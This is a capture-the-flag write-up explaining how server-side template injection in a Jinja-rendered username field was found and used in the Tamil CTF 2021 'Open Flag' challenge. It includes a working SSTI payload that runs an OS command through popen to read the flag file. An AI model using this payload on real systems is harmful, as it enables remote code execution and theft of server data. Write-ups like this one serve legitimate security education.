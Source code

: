 # Tamil CTF 2021 - Open Flag
### Description:
What is open flag challenge ? I will tell the location of flag where its located, you just need to access that flag.
### Finding the vulnerability:
The given website consists of 2 pages: A registration panel and a static page.


![registration page](https://github.com/apostolides/ctf-writeups/blob/master/TamilCTF_2021/Open_Flag/register.png)


![static page](https://github.com/apostolides/ctf-writeups/blob/master/TamilCTF_2021/Open_Flag/index.png)


We notice that upon entering a username it gets reflected on the static page. After trying to inject some payloads we notice that user input is not sanitized. 


![poc1](https://github.com/apostolides/ctf-writeups/blob/master/TamilCTF_2021/Open_Flag/poc1.png)

Therefore we can test the website for Server Side Template Injections. We discover that they use jinja templating engine. Using a simple payload like the one below we can confirm the vulnerability.     
```python
{{7*7}}
```
![poc2](https://github.com/apostolides/ctf-writeups/blob/master/TamilCTF_2021/Open_Flag/poc2.png)

### Solution:
Using the crafted payload below we can exploit the SSTI and get code execution.

```python
{{config.__class__.__init__.__globals__['os'].popen('base64 flag.jpg').read()}}
```
This will reflect the flag image in the static html page base64 encoded. Save response in a txt file and decode with:
```bash
base64 -d flag.txt > flag.jpg
```
Flag is presented in the image.


![flag](https://github.com/apostolides/ctf-writeups/blob/master/TamilCTF_2021/Open_Flag/flag.jpg)

Happy hacking :)
